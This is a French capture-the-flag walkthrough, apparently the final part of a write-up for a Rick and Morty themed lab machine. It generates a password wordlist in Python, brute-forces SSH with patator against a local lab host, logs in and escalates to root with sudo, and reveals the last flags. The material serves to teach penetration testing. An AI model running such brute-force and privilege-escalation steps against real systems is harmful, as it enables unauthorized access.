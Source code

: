 Allons faire un tour chez Rick maintenant que Morty nous a reveler tous ces secrets.
 On y retrouve deux Folders:  
* <span style="color:#cc33ff">RICKS_SAFE</span>
* <span style="color:#cc33ff">ThisDoesntContainsAnyFlags</span>  

![unzip_txt](/images/home_rick.png)  

À première vue le fichier <span style="color:#cc33ff">NotAFlag.txt</span> n'est
 pas un flag. Par contre le fichier <span style="color:#cc33ff">safe</span> est
 deja plus interessant. On se rend compte que c'est un exécutable. On veut pouvoir
 faire mumuse avec, alors nous allons le copier dans notre home puis l'exécuter.  
```
cp /home/RickSanchez/RICKS_SAFE/safe /home/Summer/. ; cd ; ./safe
```
![run_safe](/images/run_safe.png)  

Ça y est ! Vous aussi vous faites la relation avec ce que ce bon vieux Morty a dit ?
 Très bien réessayons mais avec comme premiers arguments 131333.  
![decrypt_succes](/images/decrypt_succes.png)  

On touche au but ! En plus d'avoir trouvé  le flag
 <span style="color:blue"> *{And Awwwaaaaayyyy We Go!}*</span> qui nous fait avoir
 20 points en plus et donc arriver a 100 / 130 points ; il nous explique même
 comment se connecter avec RickSanchez en [ssh](https://linux.die.net/man/1/ssh) !  

![Wiki_rick](/images/Wiki_rick.png)  
Comme Tout le monde le sait le groupe de Rick était
 <span style="color:red">`The Flesh Curtains`</span>,
 mais dans le doute on a quand même vérifier sur
 l'internet. Il ne nous reste plus qu'à écrire un
 petit script.  
```
cat > generator_mdp.py
import string
grp_name = ("The", "Flesh", "Curtains")
with open("mdp.txt", 'w') as f:
    for l in string.uppercase:
        for d in string.digits:
            for g in grp_name:
                f.write(l + d + g + '\n')
```
Maintenant qu'on a notre script on va générer toutes les combinaisons de
 mot de passe puis essayer de retrouver le mot de passe grâce à
 [patator](https://tools.kali.org/password-attacks/patator).  
```
python generator_mdp.py ; patator ssh_login user=RickSanchez host=192.168.1.14 port=22222 password=FILE0 0=mdp.txt -x ignore:mesg='Authentication failed.'
```
Et on a notre mot de passe. Essayons de nous connecter en
    [ssh](https://linux.die.net/man/1/ssh) en rentrant ce mot de passe  
![ssh_rick_connection](/images/ssh_rick_connection.png)  
```
ssh -p 22222 RickSanchez@192.168.1.15
```
Maintenant que nous sommes OFFICIELLEMENT RickSanchez nous pouvons lancer la
 commande `sudo su` avec le même mot de passe et ainsi passé Root.  
![root_dir](/images/root_dir.png)  

On retrouve notre dernier flag
 <span style="color:blue">*{Ionic Defibrillator}*</span> pour une valeur de 30
 points ce qui nous amènent à 130 sur 130 points !  
![last_flag](/images/last_flag.png)  
Bravo à toutes et à tous d'avoir réussi ces challenges :)